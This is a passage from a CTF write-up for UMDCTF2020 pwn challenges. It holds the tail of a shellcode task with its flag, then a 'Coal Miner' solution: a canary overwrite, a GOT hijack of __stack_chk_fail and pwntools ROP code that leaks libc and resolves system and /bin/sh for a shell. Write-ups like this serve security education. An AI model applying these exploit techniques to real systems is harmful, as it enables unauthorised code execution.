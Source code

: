 ```nasm
```

> There is one thing to note in writing shellcode, stack should be **balanced** before `ret` 

> flag: UMDCTF{uu_rr_ G3tt1nG_g00d_w1tH_Th1s_$h3llc0de_stUff}

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/UMDCTF2020/pwn/shellcode2) 



## Coal Miner (800pt, unsolved)

> This wp works only in my local environment (Ubnutu19.04 libc2.29)


### Description

> First to fall over when the atmosphere is less than perfect Your sensibilities are shaken by the slightest defect 
>
> `nc 161.35.8.211 9999` 
>
> Author: `moogboi`

### Attachment

[coalminer](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/UMDCTF2020/pwn/coalminer/coalminer)

### Solution

 * buffer overflow: overwrite canary and trigger `__stack_chk_fail`
 * overwrite `got['__stack_chk_fail']` with gadget `pop-pop-pop-pop-ret`
 * execute first ropchain to leak libc and return to `_start`
 * execute second ropchain to getshell

#### rop1
```python
sla('> ','add')
sla('Enter a name: \n','TaQini__'+p64(elf. got['__stack_chk_fail']))
ropchain = p64(prdi) + p64(elf.got['puts']) + p64(elf.sym['puts']) + p64(0x400770) # _start
sla('Enter a description: ',p64(p4r)+ropchain)
ru('\n')
```

#### leak libc

```python
puts = uu64(rc(6))
info_addr('puts',puts)
libcbase = puts - libc.sym['puts']
info_addr('libcbase',libcbase)
system = libcbase + libc.sym['system']
binsh  = libcbase + libc.search("/bin/sh").next()
info_addr('system',system)
info_addr('binsh',binsh)
```
